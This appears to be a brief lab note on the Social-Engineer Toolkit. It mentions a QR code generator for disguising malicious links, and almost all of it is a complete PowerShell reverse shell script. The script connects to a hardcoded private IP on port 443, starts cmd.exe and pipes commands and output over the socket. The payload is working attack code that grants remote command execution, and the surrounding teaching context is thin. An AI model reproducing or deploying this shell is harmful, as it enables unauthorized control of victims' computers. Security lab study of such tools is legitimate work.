

This lab covered two tools from SET, the Social-Engineer Toolkit: a QR code generator that can point a normal-looking QR code at a malicious link, and a PowerShell reverse shell payload generator.

function cleanup {
if ($client.Connected -eq $true) {$client.Close()}
if ($process.ExitCode -ne $null) {$process.Close()}
exit}
// Setup IPADDR
$address = '192.168.255.10'
// Setup PORT
$port = '443'
$client = New-Object system.net.sockets.tcpclient
$client.connect($address,$port)
$stream = $client.GetStream()
$networkbuffer = New-Object System.Byte[] $client.ReceiveBufferSize
$process = New-Object System.Diagnostics.Process
$process.StartInfo.FileName = 'C:\\windows\\system32\\cmd.exe'
$process.StartInfo.RedirectStandardInput = 1
$process.StartInfo.RedirectStandardOutput = 1
$process.StartInfo.UseShellExecute = 0
$process.Start()
$inputstream = $process.StandardInput
$outputstream = $process.StandardOutput
Start-Sleep 1
$encoding = new-object System.Text.AsciiEncoding
while($outputstream.Peek() -ne -1){$out += $encoding.GetString($outputstream.Read())}
$stream.Write($encoding.GetBytes($out),0,$out.Length)
$out = $null; $done = $false; $testing = 0;
while (-not $done) {
if ($client.Connected -ne $true) {cleanup}
$pos = 0; $i = 1
while (($i -gt 0) -and ($pos -lt $networkbuffer.Length)) {
$read = $stream.Read($networkbuffer,$pos,$networkbuffer.Length - $pos)
$pos+=$read; if ($pos -and ($networkbuffer[0..$($pos-1)] -contains 10)) {break}}
if ($pos -gt 0) {
$string = $encoding.GetString($networkbuffer,0,$pos)
$inputstream.write($string)
start-sleep 1
if ($process.ExitCode -ne $null) {cleanup}
else {
$out = $encoding.GetString($outputstream.Read())
while($outputstream.Peek() -ne -1){
$out += $encoding.GetString($outputstream.Read()); if ($out -eq $string) {$out = ''}}
$stream.Write($encoding.GetBytes($out),0,$out.length)
$out = $null
$string = $null}} else {cleanup}}